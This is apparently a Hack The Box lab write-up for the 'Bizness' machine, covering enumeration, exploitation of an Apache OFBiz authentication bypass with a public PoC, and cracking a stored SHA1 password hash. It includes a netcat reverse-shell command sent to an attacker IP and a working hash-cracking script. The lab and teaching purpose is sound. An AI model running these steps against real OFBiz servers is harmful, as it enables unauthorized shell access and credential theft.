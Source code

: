 ```yaml
---
author: Supaaasuge
title: Bizness - HTB Writeup
date: 2024-05-06
Lastmod: 2024-05-06
description: "Writeup for the Hack The Box room: Bizness"
categories:
  - Hack The Box
tags:
  - CVE-2023-51467
  - CVE-2023-49070
  - Linux
---
```

Bizness is a Easy Linux machine initially released on January 6th, 2024. As usual, I start with basic enumeration using Nmap; and from there used `dirsearch` for directory enumeration. From directory enumeration we find a login page running Apache OFBiz. This version of Apache OFBiz is vulnerable to an authentication bypass vulnerability [CVE-2023-51497](https://blog.sonicwall.com/en-us/2023/12/sonicwall-discovers-critical-apache-ofbiz-zero-day-authbiz/). From here, using a public PoC script found on github, we are then able to leverage CVE-2023-49070 to get remote code execution and get a shell on the machine as the `ofbiz` user. 

---

## Enumeration
```bash
nmap -sV 10.10.11.252
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-18 06:01 UTC
Nmap scan report for 10.10.11.252
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.40 seconds
```

Ports Open:
`22, 80, 443`
![pic 1](/posts/bizness-htb-1.png)

When navigating the IP in the browser, `bizness.htb` is the domain that is shown. Let's go ahead and add this to `/etc/hosts`
```bash
echo '10.10.11.252 bizness.htb' | sudo tee -a /etc/hosts           
10.10.11.252 bizness.htb
```

Next moving on to directory enumeration, after a bit of trial and error I tried `dirsearch`.
```bash
dirsearch -u https://bizness.htb/
```
From this step of enumeration, the endpoint containing the Vulnerable login was found:
```
https://bizness.htb/solr/control/checkLogin/
```
- Apache OFBiz Authentication Bypass Vulnerability (CVE-2023-51467 and CVE-2023-49070)

### CVE-2023-49070
The Apache OFBiz Enterprise Resource Planning (ERP) system, a Java based web framework used across many industries. The SonicWall Threat research team's [discovery](https://blog.sonicwall.com/en-us/2023/12/sonicwall-discovers-critical-apache-ofbiz-zero-day-authbiz/) of **CVE-2023-51467**, a severe authentication bypass vulnerability with a CVSS score of 9.8, has unveiled an alarming risk to the system's integrity. This vulnerability not only exposes the ERP system to potential exploitation but also opens the door to a Server-Side Request Forgery (SSRF) exploit, presenting a dual threat to organizations relying on Apache OFBiz.
[CVE-2023-51467 and CVE-2023-49070 PoC](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass?source=post_page-----b0045ddbc33a--------------------------------)

### Shell as ofbiz
Using the `exploit.py` script from the PoC above, I was able to get a shell as `ofbiz`.
```bash
python exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/bash 10.10.16.9 6969'
[+] Generating payload...
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
```
![alt](/posts/bizness-htb-2.png)
![alt](/posts/bizness-htb-3.png)
we found some important data during enumeration. 

![alt](/posts/bizness-htb-4.png)

Using the script below, this can be used to decrypt the password
```python
import hashlib  
import base64  
import os  
from tqdm import tqdm  
  
class PasswordEncryptor:  
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):  
        """  
        Initialize the PasswordEncryptor object with a hash type and PBKDF2 iterations.  
  
        :param hash_type: The hash algorithm to use (default is SHA).  
        :param pbkdf2_iterations: The number of iterations for PBKDF2 (default is 10000).  
        """  
        self.hash_type = hash_type  
        self.pbkdf2_iterations = pbkdf2_iterations  
  
    def crypt_bytes(self, salt, value):  
        """  
        Crypt a password using the specified hash type and salt.  
  
        :param salt: The salt used in the encryption.  
        :param value: The password value to be encrypted.  
        :return: The encrypted password string.  
        """  
        if not salt:  
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')  
        hash_obj = hashlib.new(self.hash_type)  
        hash_obj.update(salt.encode('utf-8'))  
        hash_obj.update(value)  
        hashed_bytes = hash_obj.digest()  
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"  
        return result  
  
    def get_crypted_bytes(self, salt, value):  
        """  
        Get the encrypted bytes for a password.  
  
        :param salt: The salt used in the encryption.  
        :param value: The password value to get encrypted bytes for.  
        :return: The encrypted bytes as a string.  
        """  
        try:  
            hash_obj = hashlib.new(self.hash_type)  
            hash_obj.update(salt.encode('utf-8'))  
            hash_obj.update(value)  
            hashed_bytes = hash_obj.digest()  
            return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')  
        except hashlib.NoSuchAlgorithmException as e:  
            raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")  
  
# Example usage:  
hash_type = "SHA1"  
salt = "d"  
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="  
wordlist = '/usr/wordlist/rockyou.txt'  
  
# Create an instance of the PasswordEncryptor class  
encryptor = PasswordEncryptor(hash_type)  
  
# Get the number of lines in the wordlist for the loading bar  
total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))  
  
# Iterate through the wordlist with a loading bar and check for a matching password  
with open(wordlist, 'r', encoding='latin-1') as password_list:  
    for password in tqdm(password_list, total=total_lines, desc="Processing"):  
        value = password.strip()  
          
        # Get the encrypted password  
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))  
          
        # Compare with the search hash  
        if hashed_password == search:  
            print(f'Found Password:{value}, hash:{hashed_password}')  
            break  # Stop the loop if a match is found
```
![alt](/posts/bizness-htb-5.png)
password: `monkeybizness`

Using the login and password we now get the root flag!